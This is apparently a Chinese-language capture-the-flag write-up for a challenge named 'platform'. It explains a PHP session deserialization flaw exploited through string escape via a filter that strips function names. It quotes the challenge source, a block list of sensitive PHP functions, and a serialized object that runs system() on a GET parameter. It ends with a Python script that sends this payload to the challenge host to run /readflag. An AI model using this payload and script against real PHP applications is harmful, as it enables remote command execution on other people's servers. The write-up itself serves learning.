








# platform题解
## 考点
* Session反序列化
    > 参考: 
    >> [PHP session反序列化漏洞原理解析](https://www.freebuf.com/articles/web/324519.html)\
    >> [带你走进PHP session反序列化漏洞](https://xz.aliyun.com/t/6640?time__1311=n4+xnD0Dg7=YqBK0QD/iWRexjxx0hDxxb2qTD)\
    >> [原理+实践掌握(PHP反序列化和Session反序列化)](https://xz.aliyun.com/t/7366?u_atoken=04a9ac111082e21c38978486e232a33d&u_asig=1a0c399717316819840553035e0117#toc-1)
* 字符串逃逸

## 分析
> 先放一个session的工作过程：
 

查看前端等地方没有看到利用的点，于是扫目录，扫到www.zip，有以下源码：



源码中有用的包括`index.php`, `class.php`和`dashboard.php`，先看一下`class.php`：
* 整体来看是和session相关的，并且`notouchitsclass`类有一个eval，可以用来执行命令，那么可以确定大致方向是反序列化。
* 然后`SessionRandom`类生成一个长度不定的随机字符串。
* `SessionManager`类对session进行管理，重点在`filterSensitiveFunctions`方法，对传入的`$sessionFile`内涉及的敏感系统命令进行替换(替换为`''`)，然后再保存在`$sessionFile`中。
```php
<?php
class notouchitsclass {
    public $data;

    public function __construct($data) {
        $this->data = $data;
    }

    public function __destruct() {
        eval($this->data);
    }
}

class SessionRandom {

    public function generateRandomString() {
    $length = rand(1, 50);

    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';

    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }

    return $randomString;
    }


}

class SessionManager {
    private $sessionPath;
    private $sessionId;
    private $sensitiveFunctions = ['system', 'eval', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open'];

    public function __construct() {
        if (session_status() == PHP_SESSION_NONE) {
            throw new Exception("Session has not been started. Please start a session before using this class.");
        }
        $this->sessionPath = session_save_path();
        $this->sessionId = session_id();
    }

    private function getSessionFilePath() {
        return $this->sessionPath . "/sess_" . $this->sessionId;
    }

    # 把存在的敏感函数替换为空，然后将$sessionData写入session文件
    public function filterSensitiveFunctions() {
        $sessionFile = $this->getSessionFilePath();

        if (file_exists($sessionFile)) {
            $sessionData = file_get_contents($sessionFile);

            foreach ($this->sensitiveFunctions as $function) {
                if (strpos($sessionData, $function) !== false) {
                    $sessionData = str_replace($function, '', $sessionData);
                }
            }
            file_put_contents($sessionFile, $sessionData);

            return "Sensitive functions have been filtered from the session file.";
        } else {
            return "Session file not found.";
        }
    }
}
```

再来看一下`index.php`：
* 开启一个session会话，包含了`user.php`和`class.php`，然后以POST方式接收`username`，然后检查是否设置session_key，如果没有设置，则生成一个长度不定的随机字符串；然后将password保存在`$_SESSION`。
* 然后对`$_SESSIONFILE`中的内容进行过滤再次保存。
```php
<?php
session_start();
require 'user.php';
require 'class.php';

$sessionManager = new SessionManager();
$SessionRandom = new SessionRandom();

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $_SESSION['user'] = $username;

    if (!isset($_SESSION['session_key'])) {
        $_SESSION['session_key'] =$SessionRandom -> generateRandomString();
    }
    $_SESSION['password'] = $password;
    $result = $sessionManager->filterSensitiveFunctions();
    header('Location: dashboard.php');
    exit();
} else {
    require 'login.php';
}
```

再看一下`dashboard.php`：
* 其实就是在已经建立的会话的基础上的回显操作了。
```php
<?php
include("class.php");
session_start();

if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit();
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>任何人都可以登录的平台</title>
    <style>
        body {
            background-color: #f0f4f8;
            font-family: Arial, sans-serif;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            height: 100vh;
            margin: 0;
            text-align: center;
        }
        h1 {
            color: #333;
            margin-bottom: 20px;
        }
        p {
            color: #555;
            font-size: 18px;
            margin: 0;
        }
        .session-info {
            background-color: #fff;
            border-radius: 10px;
            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
            padding: 20px;
            width: 300px;
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <h1>欢迎来到任何人都可以登录的平台</h1>
    <div class="session-info">
        <p>你好，<?php echo htmlspecialchars($_SESSION['user']); ?>！</p>
    </div>
</body>
</html>
```

很明显这是一个Session反序列化的题目，结合session的工作过程(第一次访问时，会将`$_SESSION`的数据序列化存在文件中，然后后面访问的时候，服务端会将文件中的内容反序列化返回)，首先可以确定我们的payload要通过`index.php`上传上去，然后再访问`dashboard.php`，然后就可以看到反序列化后的内容了。当然序列化的主体部分一定是notouchitscalss的内容。
```php
<?php
class notouchitsclass {
    public $data;
    public function __construct($data) {
        $this->data = $data;
    }
    public function __destruct() {
        eval($this->data);
    }
}
$payload = new notouchitsclass(0);
$payload->data = '("sys"."tem")($_GET[pear]);';
echo serialize($payload);

# O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}
```

> **<mark>涉及"为什么要逃逸"的问题，首先在本地开一个apache服务，先看一下如果直接传`O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}`在session文件中发生什么：

可以看到password的值是s开头的，而s代表string类型，而不是一个class类型，因此反序列化出来的就不是一个类对象，进而也就不能执行命令。因此需要进行逃逸，逃逸出一个O开头的序列化序列出来。<mark>**


接下来就是如何逃逸，先结合下面这幅图分析一下我们要逃逸出什么来，其中高亮部分是我们不需要的部分，要的是O的内容:


因此需要借助对user的敏感字符的过滤以及`session_key`进行逃逸，由于`session_key`的长度不固定，因此我们需要定长爆破，构造如下payload：
> user=popenpopenpopenpopenpopenpopenpopenpopenpopenpopensystem&password=";pearain|O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}
## 解答
那么结合上述分析以及session的特性，最终payload如下：
```python
import requests

data = {
    'username': 'popenpopenpopenpopenpopenpopenpopenpopenpopenpopensystem',
    'password': ';session_key|O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}password|s:1:"a'
}

url = "http://eci-2ze1c97lhjov4heewssx.cloudeci1.ichunqiu.com/"
while True:
    r = requests.session()
    params = {
    'pear': "/readflag"
    }
    # 这里为什么要请求两次？第一次请求session_id文件并没有内容，需要请求两次，然后再进行反序列化
    r1 = r.post(url+'/index.php', headers=headers, params=params, data=data, verify=False, allow_redirects=False)
    r1 = r.post(url+'/index.php', headers=headers, params=params, data=data, verify=False, allow_redirects=False)
    r2 = r.post(url + '/dashboard.php?pear=/readflag', headers=headers, verify=False, allow_redirects=False)
    if "flag" in r2.text:
        print(r2.text)
        break
    r.close()
```

